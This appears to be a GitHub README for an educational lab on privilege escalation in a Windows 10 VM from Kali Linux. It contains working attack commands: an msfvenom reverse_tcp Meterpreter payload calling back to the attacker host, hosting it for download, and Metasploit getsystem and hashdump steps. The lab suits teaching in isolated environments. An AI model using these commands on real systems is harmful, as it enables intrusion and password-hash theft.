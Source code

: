 # Privilege Escalation 

## Overview
This repository contains scripts and instructions for demonstrating privilege escalation on a Windows 10 virtual machine using Kali Linux as the attacker machine. The lab showcases:

- Setting up a fake server using Apache.
- Generating a malicious payload with msfvenom.
- Exploiting a Windows system with Metasploit.
- Escalating privileges and extracting sensitive information.

## Requirements

- **Kali Linux VM**
  - Installed with Metasploit and msfvenom.
  - Network configured to communicate with the Windows VM.
- **Windows 10 VM**
  - Network configured to communicate with Kali.
- Tools used:
  - Apache2
  - Metasploit Framework


## Setup Instructions

### 1. Setting Up Apache on Kali
- Run the `setup_apache.sh` script to configure Apache and share the malicious payload.

```bash
chmod +x scripts/setup_apache.sh
./scripts/setup_apache.sh
```

### 2. Generating the Payload
- Use `msfvenom` to create a malicious payload.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_IP> LPORT=4444 -f exe > ~/Desktop/Exploit.exe
```

### 3. Preparing Metasploit
- Run the `metasploit_commands.sh` script to set up Metasploit and listen for incoming connections.

```bash
chmod +x scripts/metasploit_commands.sh
./scripts/metasploit_commands.sh
```

### 4. Running the Payload on Windows
- On the Windows VM, navigate to the shared Apache folder and execute the `Exploit.exe` file.

```bash
http://<Kali_IP>/share/Exploit.exe
```

### 5. Interacting with the Exploit
- Use Metasploit to interact with the opened session, escalate privileges, and extract sensitive information.

## Key Commands

### Metasploit Basic Commands
```bash
sessions -i <ID>    # Interact with an active session.
getsystem           # Attempt privilege escalation.
run post/windows/gather/smart_hashdump  # Dump password hashes.
```

## Notes
- This lab is for educational purposes only. Ensure you have permission to test the target system.
- Always use a secure network and isolated environments for these activities.

